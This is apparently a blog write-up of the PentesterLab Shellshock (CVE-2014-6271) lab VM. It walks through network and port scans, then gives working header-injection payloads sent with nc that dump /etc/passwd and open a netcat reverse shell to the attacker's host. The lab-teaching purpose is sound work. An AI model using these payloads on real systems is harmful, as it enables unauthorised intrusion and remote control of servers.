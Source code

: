 ```yaml
---
layout: post
title:  "PentestLabs CVE-2014-6271 (ShellShock)"
subtitle: "Vulnhub Writeups"
date:   2017-03-10 15:00:00 -0000
author: "coastal"
header-img: "images/site-resources/shellshock-header.jpg"
---
```

# Introduction
ShellShock is a vulnerability in which environmental variables of the bash shell could be used to perform remote code execution. This VM from PentestLabs tasks you with gaining a shell on the system by abusing the ShellShock vuln.

# Attack

First step for us after setting up the VM is to scan the network and find it.

```
root@kali:~# netdiscover -i eth1



Currently scanning: 192.168.92.0/16   |   Screen View: Unique Hosts

3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
192.168.56.1    0a:00:27:00:00:00      1      60  Unknown vendor
192.168.56.100  08:00:27:02:fd:51      1      60  PCS Systemtechnik GmbH
192.168.56.103  08:00:27:9b:76:f2      1      60  PCS Systemtechnik GmbH 
```

Alright, our target is at ```192.168.56.103```. Let's do a port scan and see what services are available:

```
root@kali:~# nmap -sV -p- 192.168.56.103

Starting Nmap 7.40 ( https://nmap.org ) at 2017-03-10 13:00 EST
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.103
Host is up (0.00010s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.0 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.21 ((Unix) DAV/2)
MAC Address: 08:00:27:9B:76:F2 (Oracle VirtualBox virtual NIC)
```

We see that there is an Apache instance running on port 80. Let's connect with our browser and see what is being served.

<img src="{{ site.baseurl }}/images/vuln-imgs/pentestlabs-01-shellshock/home-page.jpg">

Interesting, it is showing us some information about the uptime and kernel version running on the server. This is dynamically-generated content. Why don't we take a look at the traffic in Burp and see if there is any interceptable command request being fired.

<img src="{{ site.baseurl }}/images/vuln-imgs/pentestlabs-01-shellshock/cgi-request.jpg">

Aha, we have a request being made to /cgi-bin/status. Some googling leads us to the likely purpose of the request.

Common Gateway Interface (CGI)
> In computing, Common Gateway Interface (CGI) offers a standard protocol for web servers to execute programs
> that execute like Console applications (also called Command-line interface programs) running on a server that
> generates web pages dynamically. Such programs are known as CGI scripts or simply as CGIs. The specifics of how
> the script is executed by the server are determined by the server. In the common case, a CGI script essentially
> executes at the time a request is made and generates HTML.[1]

Some important details related to this vulnerability is that this CGI is written in bash. Another detail is that Apache uses environmental variables to pass headers to CGI scripts. And finally, bash can have internal function declaration in environmental variables. The vulnerability itself is that the vulnerable version of bash allowed for the execution of arbitrary commands after a function declaration.

So, in order to perform this attack, we need to modify one of the header values so that it declares an empty bash function. We concatenate another command on the end of that function declaration, and that command should be arbitrarily executed by the server when Apache stores the header as an environmental variable when the CGI is called. This output should be returned to us in the response headers. Let's transition to throwing requests via a terminal so we can grab the response headers easily and try to pop ```/etc/passwd```.

```
echo -e "head /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: 192.168.56.103\r\nConnection: close\r\n\r\n" | nc 192.168.56.103 80
HTTP/1.1 200 OK
Date: Fri, 10 Mar 2017 19:00:40 GMT
Server: Apache/2.2.21 (Unix) DAV/2
root: x:0:0:root:/root:/bin/sh
lp: x:7:7:lp:/var/spool/lpd:/bin/sh
nobody: x:65534:65534:nobody:/nonexistent:/bin/false
tc: x:1001:50:Linux User,,,:/home/tc:/bin/sh
pentesterlab: x:1000:50:Linux User,,,:/home/pentesterlab:/bin/sh
Content-Length: 175
Connection: close
Content-Type: application/json

{ "uptime": " 19:00:40 up 1:45, 1 users, load average: 0.00, 0.01, 0.01", "kernel": "Linux vulnerable 3.14.1-pentesterlab #1 SMP Sun Jul 6 09:16:00 EST 2014 i686 GNU/Linux"} 
```

Alright! We have remote code execution. Now let's grab ourselves a shell

```
echo -e "head /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.56.102 4444 -e /bin/sh\r\nHost: 192.168.56.103\r\nConnection: close\r\n\r\n" | nc 192.168.56.103 80
```

<img src="{{ site.baseurl }}/images/vuln-imgs/pentestlabs-01-shellshock/reverse-shell.jpg">

And we have successfully pwn'd the box! This vulnerability is worryingly simple. It was discovered in 2014 and retroactive analysis of the Bash source code showed that the bug had existed since 1989...While the vector in this attack was through a bash-based CGI script handler, there are other vectors for Shellshock including

- OpenSSH ```ForceCommand``` on-login execution of environmental variable ```SSH_ORIGINAL_COMMAND``` to upgrade a restricted shell to an unrestricted shell
- DHCP client execution of payload string received from malicious DHCP Server
- Qmail server passage of external input

There is a test command that can be used to detect this initial version of the ShellShock vulnerability. Execution on vulnerable and secure hosts can be seen here.

#### Vulnerable

<img src="{{ site.baseurl }}/images/vuln-imgs/pentestlabs-01-shellshock/test-vulnerable.jpg">

#### Safe

<img src="{{ site.baseurl }}/images/vuln-imgs/pentestlabs-01-shellshock/test-safe.jpg">

The vulnerability also went through multiple iterations before being completely patched out in 2014. All in all, a cool vulnerability and exploit!

## References

[1. Wikipedia of Course][wiki]


[2. Pentestlabs writeup][pentest]

[wiki]:https://en.wikipedia.org/wiki/Shellshock_(software_bug)
[pentest]:https://pentesterlab.com/exercises/cve-2014-6271/course



